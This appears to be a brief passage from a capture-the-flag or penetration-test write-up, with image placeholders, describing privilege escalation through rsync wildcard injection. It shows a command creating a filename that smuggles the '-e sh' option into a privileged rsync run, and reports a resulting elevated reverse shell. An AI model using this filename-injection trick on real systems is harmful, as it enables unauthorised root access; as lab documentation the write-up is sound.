
To exploit the wildcard injection vulnerability in rsync, we created a specially crafted filename designed to inject command-line arguments:
$ touch -- "-e sh note.txt"

When the privileged rsync process executed, it interpreted the malicious filename as an option, causing it to execute our payload.

After a short delay, the payload was triggered successfully, resulting in a reverse shell with elevated privileges.